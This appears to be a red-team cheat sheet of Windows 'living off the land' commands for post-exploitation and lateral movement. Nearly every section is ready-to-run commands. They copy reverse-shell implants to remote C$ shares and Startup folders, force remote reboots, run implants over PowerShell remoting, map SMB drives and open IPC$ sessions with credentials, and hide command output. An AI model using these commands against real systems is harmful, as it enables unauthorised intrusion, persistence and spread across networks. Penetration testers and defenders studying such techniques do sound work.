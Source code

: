 # Living off the Land

Search Tag(s): #post-exploitation #lateral-movement #remote-file-access #living-off-the-land #windows

## 01 - List Files and Directories

### 1.1 - Command Prompt

List files and directories remotely

```
C:\> dir \\<IP>\c$
```

List all the files and directories

```
C:\> dir /s /b \\<IP>\c$ > files.txt
```

### 1.2 - Powershell

List files and directories remotely

```
PS C:\> Get-ChildItem \\<IP>\C$

PS C:\> Get-ChildItem \\<IP>\C$ | Format-Wide -Property Name -Column 1
```

List all the files and directories

```
C:\> ChildItem -Recurse \\<IP>\C$ > files.txt

C:\> ChildItem -Recurse \\<IP>\C$ | Format-Wide -Property Name -Column 1 > files.txt
```

## 02 - Copy Files

### 2.1 - Command Prompt

#### 2.1.1 - Copy Files Remotely

```
C:\> copy shell.exe \\<IP>\c$\folder\shell.exe

C:\> xcopy shell.exe \\<IP>\c$\folder\shell.exe

C:\> robocopy <source> <destination> <files>

C:\> robocopy \\<IP>\c$\folder\shell.exe shell.exe
```

#### 2.1.2 - Copy reverse shell callback on `Startup` folder

```
C:\> xcopy shell.exe "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

C:\> robocopy C:\ "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" shell.exe

C:\> shutdown /t 0 /r /m \\<IP>
```

### 2.2 - Powershell

#### 2.2.1 - Copy Files Remotely

```
PS C:\> Copy-Item implant.exe -Destination \\<IP>\C$\implant.exe
```

Copy the callback shell and execute it via powershell cmdlet.

```
PS C:\> $ip = New-PSSession -Computer <IP>

Copy-Item "C:\path\to\implant.exe" -Destination "C:\path\to\folder\" -ToSession $ip

icm -Session $ip -ScriptBlock { C:\path\to\implant.exe }
```

#### 2.2.2 - Copy reverse shell callback on `Startup` folder

```
PS C:\> Copy-Item shell.exe -destination "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

PS C:\> Restart-Computer -ComputerName <IP> -Force
```

## 03 - Mapping SMB Drive Network

### 3.1 - Command Prompt

```
C:\> net use Z: \\<IP>\c$

C:\> net use Z: \\<IP>\C$ /user:"<username>" "<password>"

C:\> dir Z:\

C:\> net use Z: /delete
```

### 3.2 - Powershell

```
PS C:\> New-PSDrive -Name <drive_name> -PSProvider FileSystem -Credential $credential \\<IP>\<share_name>

PS C:\> Get-ChildItem <drive_name>:
```

To remove the mounted drive.

```
PS C:\> Remove-PSDrive -Name <drive_name>
```

## 04 - Manual Null Session

### 4.1 - Command Prompt

Authenticate null session with `IPC$` via net use commands to allow the user to execute any other commands remotely.

```
C:\> net use \\<IP>\IPC$ /u:"<username>" "<password>"

C:\> dir \\<IP>

C:\> net view \\<IP>
```

Ignore the authentication while authenticating session.

```
C:\> net use \\<IP>\IPC$ /u:"<username>" "<password>" > %TEMP%\~temp3936t.tmp 2>&1
```

## 05 - Spawn Implant

### 5.1 - Command Prompt

```
C:\> cmd.exe /q /c "C:\path\to\shell.exe" 1> \\<IP>\ADMIN$\<filename> 2>&1
```

## 06 - Terminate all the sessions

### 6.1 - Command Prompt

```
C:\> net use /delete *
```

---
## References

- [LOFLCAB: Get-ChildItem](https://lofl-project.github.io/loflcab/Cmdlets/Get-ChildItem/)

- [LOFLCAB: Copy-Item](https://lofl-project.github.io/loflcab/Cmdlets/Copy-Item/)

- [LOFLCAB: net.exe](https://lofl-project.github.io/loflcab/Binaries/net/)

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)